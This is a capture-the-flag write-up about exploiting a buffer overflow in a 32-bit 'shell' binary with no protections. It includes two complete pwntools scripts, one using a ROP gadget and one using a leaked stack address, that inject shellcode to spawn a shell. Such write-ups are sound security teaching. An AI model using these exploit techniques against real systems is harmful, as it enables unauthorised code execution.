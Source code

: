 ```yaml
---
title: "CWE Challenge - Shell"
author: Michael Mendoza
date: "2023-01-20"
subject: "Binary Exploitation"
keywords: [CTF, binary exploitation, Screening]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/titlePage.jpeg"
---
```


# Information Gathering

We can see here that we are working with a 32-bit binary with all the defense mechanisms turned off!

![Information](./images/info.png)
\ **Figure 1:** Information about the binary

## Ghidra

After observing the main function we can see a read_in function that has the vulnerability we are looking for.

![Ghidra](./images/read_in.png)
\ **Figure 2:** Read_In Function
 
On the right side of Ghidra, we can see the decompiled read_in function showing that there is a buf variable with 44 bytes allocated to it, but the read function reads in 0x90 bytes; this is where the buffer overflow vulnerability is located. On the left side we can see that the buf variable is at an offset of 0x38.
 
I did not see a win function, so this means we will have to create a payload to exploit the binary and get a return shell. Overwriting the instruction pointer to return to the stack pointer where our exploit will be should be good enough.

## Creating the Exploit 
So there's 2 ways I want to show that this binary could be exploited. The first is to use a ROP gadget to return to the stack pointer, and the second is to find the offset to the stack pointer using the leaked address. Using the ROP gadget would be easier since you dont need a leaked address to find the offset to. However, I will show both exploits to showcase how this could be solved if using ROP gadgets was not an option.

# ROP Gadget Exploit

The goal we need to accomplish here is to somehow jump to, return to, or even call the stack pointer to run the shell code! We can accomplish this using ROP Gadgets. To find the right one, we use ropper and see the following output.

![ROP](./images/ropper.png)
\ **Figure 3:** ROP Gadgets Available
 
Ideally, finding a "jmp esp" or "call esp" or even a "push esp; ret" would be nice, but there are not many options. We do see one ROP instruction that pushes esp onto the stack, does a couple of other things and then returns, which theoretically should still work.

![ROP](./images/gadgetFound.png)
\ **Figure 4:** ROP Gadgets Found


We can use shellcraft in our python script to create the shell code necessary to give us a shell. We create a buffer of 0x38 bytes which we saw was the offset earlier in Ghidra and overwrite the instruction pointer to return to the gadget we found.

## Python Script

```
#!/usr/bin/env python3

from pwn import *

#setting the context will allow us to create a shell that will work based on the binaries architecture.
context.binary = ('./shell')

p = process('./shell')

buffer = 0x38 * b'A'
shell = asm(shellcraft.sh()) #creating the shell using the assembler function

#need to somehow return to the stack pointer where the shell code is
returnAddr = 0x08049115 # ROP Gadget found - push esp; mov ebx, dword ptr [esp]; ret;

#send the payload
payload = buffer + p32(returnAddr) + shell
p.sendline(payload)

p.interactive()
```

## Flag
![Flag](./images/flag.png)
\ **Figure 5:** Running the Exploit

And BOOM! Our gadget worked. 

# Leaked Address Exploit

To find the offset that we need for this exploit, we set a break point after the read function is called so we can see what the stack frame looks like when we send our payload. 

![Leaked](./images/read_inGDB.png)
\ **Figure 6:** GDB read_in function

run the program to get the leaked address

![Leaked](./images/leakedAddress.png)
\ **Figure 7:** Leaked Address

Here we see the leaked address is 0xffffd0c4. Now to view what the stack frame looks like at the time you send the payload.

![Leaked](./images/stackFrame.png)
\ **Figure 8:** Stack Frame

Here we can see that the previous frame's sp is 0xffffd100. This is where we want to calculate our offset to. After doing some quick math.

![Leaked](./images/quickMath.png)
\ **Figure 9:** Quick Math

So now we can see that adding 0x3c to the leaked address will return us to where our shell code is.

## Python Script

This script is exactly the same as the ROP script except we save the leaked address and calculate the return address by adding the offset we found.

```
#!/usr/bin/env python3

from pwn import *

#setting the context will allow us to create a shell that will work based on the binaries architecture.
context.binary = ('./shell')

p = process('./shell')

buffer = 0x38 * b'A'
shell = asm(shellcraft.sh()) #creating the payload using the assembler function

p.recvuntil(b'= ') #recieve up until the leaked address

leakedAddress = (p.recvline().strip()) #strips the address of whitespace

log.info(f'Leaked Address => {leakedAddress}')

strAddr = leakedAddress.decode('utf-8') #converts raw bytes to string


intAddr = int(strAddr, 16) #converts string to hex

log.info(f'Integer Address => {hex(intAddr)}')


returnAddr = intAddr + 0x3c #found the offset to the previous frames stack pointer to return to

log.info(f'Return Address => {hex(returnAddr)}')

payload = buffer + p32(returnAddr) + shell

log.info(f'Payload => {payload}')


p.sendline(payload)

p.interactive()
```
## Flag

![Flag](./images/leakedExploit.png)
\ **Figure 10:** Running the Exploit

# Conclusion
This challenge was solvable by understanding how to create the payload and knowing where to return to. The need to return to the stack pointer to find our exploit was key in solving this problem.


# References
1. [https://guyinatuxedo.github.io/index.html](https://guyinatuxedo.github.io/index.html)
2. [https://docs.pwntools.com/en/stable/asm.html](https://docs.pwntools.com/en/stable/asm.html)


